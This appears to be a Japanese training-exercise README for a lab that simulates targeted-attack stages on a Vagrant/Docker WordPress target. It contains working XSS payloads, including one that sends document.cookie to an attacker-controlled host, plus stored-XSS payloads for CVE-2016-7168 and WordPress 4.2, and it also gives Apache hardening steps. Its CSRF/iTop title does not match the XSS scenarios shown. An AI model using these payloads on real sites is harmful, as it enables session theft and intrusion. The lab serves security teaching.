 # クロスサイトリクエストフォージェリ脆弱性を利用した標的型攻撃演習について
## Motivation
標的型攻撃は、海外ではAPT (Advanced Persistent Threat) と呼ばれるサイバー攻撃の手法の一つで、情報セキュリティ対策推進会議が定義した「高度サイバー攻撃」に含まれる。その手口は年々巧妙化・多様化し、目的を達成するまでは執拗にサイバー攻撃が繰り返される。

標的型攻撃には5つの攻撃段階がある。

攻撃段階 | 説明 |
--- | ---
事前調査 | Targetとなる組織を攻撃するための情報収集
初期潜入 | 標的型メールやUSB、ウェブサイト閲覧を通して不正プログラムの実行、脆弱性攻撃による公開サーバへの侵入
攻撃基盤構築 | 侵入したPC内でバックドアを作成し、外部のC&Cサーバと通信を行い、新たウィルス等をダウンロードする
システム調査 | 情報の存在箇所特定や情報の取得を行う
攻撃最終目的の遂行 | 攻撃専用のウィルス等をダウンロードして、攻撃を遂行する

標的型攻撃の攻撃手法を理解し、現実社会においてどのように発生するかを理解することは重要である。

## 学習目標
CyExcが提供する本演習では、標的型攻撃段階1−3を擬似的に再現し標的型攻撃の脅威を理解することを目とし、次の演習を行う。
1. nmap、traceroute、netcatを使用し、Targetの調査
2. iTop - Security Vulnerability: Config Editorを再現し、CSRFによるRemote Code Excution（RCE）を実施
3. RCEを利用して、TCP snifferやKeyloggerをTargetウェブサーバに設置し、Attackerと通信を行う

TCP snifferやKeyloggerのコードは倫理の観点から、ここでの公開はしないこととする。

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex4/images/block.png" title="Ex4演習環境構成図">

## Prerequisite
* Vagrant
  * Plugin: landrush, vagrant-vbguest

## Installation　　
* Vagrant　　　
1. $ vagrant up --provision　　　   
2. $ vagrant landrush ls　　　   
ゲストOSのIPアドレスとhostnameが以下のようにマッチしていない場合は、vagrant destroyを行う必要がある。　　　   
```
target.cyexc-target            192.168.33.10
10.33.168.192.in-addr.arpa     target.cyexc-target
attacker.cyexc-attacker        192.168.33.20
20.33.168.192.in-addr.arpa     attacker.cyexc-attacker
````
3. target側のOS起動
$ vagrant ssh target  <br>
	i. $ cd target/　　　    <br>
	ii.$ sudo docker-compose up --build  <br>
4. attacker側のOS起動
$ vagrant ssh attacker  <br>
	i. $ cd attacker/　　　      <br>
	ii.$ sudo docker-compose up --build  <br>

## シナリオ1


### Steps
1. ht&#8203;tp://target.cyexc-target:8000/php/xss.phpにアクセスする。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/xss.png" title="Screenshot1">
2. `"><script>alert(document.cookie)</script><!--`を入力する。
クッキー情報がポップアップ表示される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/cookie1.png" title="Screenshot2">
3. `"><script>window.location='http://attacker.cyexc-attacker:8081/cookie.php?c='+document.cookie;</script><!--`を入力する。
Attacker OSのクッキー情報を搾取するPHPコード（cookie.php）が実行される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/cookie2.png" title="Screenshot3">

搾取した攻撃対象のウェブサイトのクッキー情報はこちら＠[index.html](https://github.com/CyExc/CyExc/blob/master/2017/ex3/logs/index.html)

#### Apache2の設定方法
1. wordpressコンテナにログイン
```
apache2vagrant@target:~/target$ sudo docker-compose exec wordpress bash
```
2. apache2にmod_headersを追加する。
```
root@a4ff20247d20:~# a2enmod headers
root@a4ff20247d20:~# service apache2 restart
```
3. 再度1. wordpressコンテナにログイン
```
apache2vagrant@target:~/target$ sudo docker-compose exec wordpress bash
```
4. /etc/apache2/conf-available/security.confに以下の設定を追加する。
    * `Header set X-XSS-Protection "1; mode=block"`
    * `Header edit Set-Cookie ^(.*)$ $1;HttpOnly;Secure`

```
root@a4ff20247d20:/var/www/html# vi /etc/apache2/conf-available/security.conf
root@a4ff20247d20:/var/www/html# service apache2 restart
```

設定前
```
vagrant@attacker:~$ curl -I http://target.cyexc-target:8000/php/xss.php
HTTP/1.1 200 OK
Date: Fri, 02 Feb 2018 12:27:47 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.33
Set-Cookie: PHPSESSID=ee9b5e67f350fe2de2ceec06e26684f1; path=/**
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

設定後
```
vagrant@attacker:~$ curl -I http://target.cyexc-target:8000/php/xss.php
HTTP/1.1 200 OK
Date: Fri, 02 Feb 2018 12:34:32 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Set-Cookie: PHPSESSID=17b07d99c8a5e7852286454dba8d115e; path=/;HttpOnly;Secure
Content-Type: text/html; charset=UTF-8
```

## シナリオ2
Target OSに設置されたWordPressサーバに不正な入力を含むリクエストを送信し、CVE-2016-7168とWordPress 4.2 Stored XSSの事象を確認する。

### CVE-2016-7168事象
CVE-2016-7168は、XSSコードが含まれている画像ファイル名におけるWordPressの重大なXSSの脆弱性である。

### Steps
1. Browse to http://target.cyexc-target:8000
2. ファイル名にXSSコードが含まれている画像をWordPress記事に添付する。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/post.png" title="Screenshot4">
3. プレビュー画面に遷移する。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/CVE-2016-7168.png" title="Screenshot5">

### WordPress 4.2 Stored XSS事象
WordPress 4.2 Stored XSSは、WordPressに投稿された記事のコメント欄にJavaScriptと64KB以上の文字列を一緒に投稿することで、コメント欄を表示したTarget OSのブラウザ上で任意のJavaScriptを実行することができる。

### Steps
1. Browse to http://target.cyexc-target:8000
2. WordPressに投稿された記事のコメント欄にJavaScriptと64KB以上の文字列を一緒に投稿する。
`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
64KB以上の文字列は下記のようなPythonスクリプトで作成した。
```
print 'A' * (64*1024 + 1)
```
確認ではWEB ShellコードをGETするXSSコード設置した。WordPressサーバに不正なスクリプトが設置される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/4_2_XSS.png" title="Screenshot6">

#### wordpressサーバでHTTP通信をキャプチャ
1. wordpressコンテナにログイン
```
vagrant@target:~/target/wordpress$ sudo docker-compose exec wordpress bash
```
2. ngrepを使用してHTTP通信をキャプチャ
```
root@64ff6b86f93b:/var/www/html# ngrep -W byline 'HTTP' -q > ngrep.log
```
3. wordpressコンテナをログアウト
4. wordpressコンテナのcontainer IDを調べる
```
vagrant@target:~/target/wordpress$ sudo docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                  NAMES
64ff6b86f93b        mywp                "/usr/local/bin/dock…"   13 minutes ago      Up 13 minutes       0.0.0.0:8000->80/tcp   target_wordpress_1
5b396b4d2bd0        mysql:5.7           "docker-entrypoint.s…"   2 hours ago         Up 13 minutes       3306/tcp               target_db_1
```
5. 取得したngrepのログをTarget OSにコピー
```
vagrant@target:~/target/wordpress$ sudo docker cp 64ff6b86f93b:/var/www/html/ngrep.log .
```

### CVE-2016-7168の確認
* XSSコードが含まれている画像のアップロード
T 192.168.33.1:60465 -> 192.168.1.10:80 [AP]
GET /wp-content/uploads/2018/02/img-srca-onerroralertdocument.cookie-300x300.png HTTP/1.1
Host: target.cyexc-target:8000.

* XSSコードが含まれている画像ファイル名が動的WEBページに紛れ込んでいることがわかる。
T 192.168.33.1:60475 -> 192.168.1.10:80 [A]
POST /wp-admin/async-upload.php HTTP/1.1.
Host: target.cyexc-target:8000.
Content-Type: multipart/form-data; boundary=---------------------------119484861102225031902156995.
Cookie: wp-saving-post=4-check; wordpress_90d5ca9d152667cf01931c7af43d449d=admin%7C1517746831%7C3lnjB9FzHVQ2di2eXuIxgsUSODN2ewsjPvk7NRZBlCz%7Cc5f6ca4e502585ad989c59e1335e0a1c6e9fedf65fdb0795a4f862b31805c454; wp-settings-time-1=1517579032; wp-settings-1=editor%3Dtinymce%26libraryContent%3Dbrowse%26urlbutton%3Dpost; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_90d5ca9d152667cf01931c7af43d449d=admin%7C1517746831%7C3lnjB9FzHVQ2di2eXuIxgsUSODN2ewsjPvk7NRZBlCz%7Ca6730f416c68fb6d6713bf188f5d7b056bc2f8cabf3bb8b58e0c0ecccfd96bd6; PHPSESSID=62b5fe7e3928dd77f90bde1a505db58e.
Connection: keep-alive.
.
-----------------------------119484861102225031902156995.
Content-Disposition: form-data; name="name".
.
**<img src=a onerror=alert(document.cookie)>.png.**

取得したログはこちら＠[ngrep.log](https://github.com/CyExc/CyExc/blob/master/2017/ex3/logs/ngrep2.log)


## References
* [Corss-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
* [CWE-352](https://cwe.mitre.org/data/definitions/352.html)
* [JPCERT/CC CSRFとその対策](https://www.jpcert.or.jp/securecoding/AntiCSRF-201510.pdf)
* [iTop - Security Vulnerability: Config Editor](https://sourceforge.net/p/itop/tickets/1202/)
* [2015年JPCERT ログを活用した高度サイバー攻撃の早期発見と分析](https://www.jpcert.or.jp/research/APT-loganalysis_Presen_20151117.pdf)
* [Detecting Attacks on Web Applications from Log
Files](https://www.sans.org/reading-room/whitepapers/logging/detecting-attacks-web-applications-log-files-2074)
* [ngrep examples](https://github.com/jpr5/ngrep/blob/master/EXAMPLES.md)
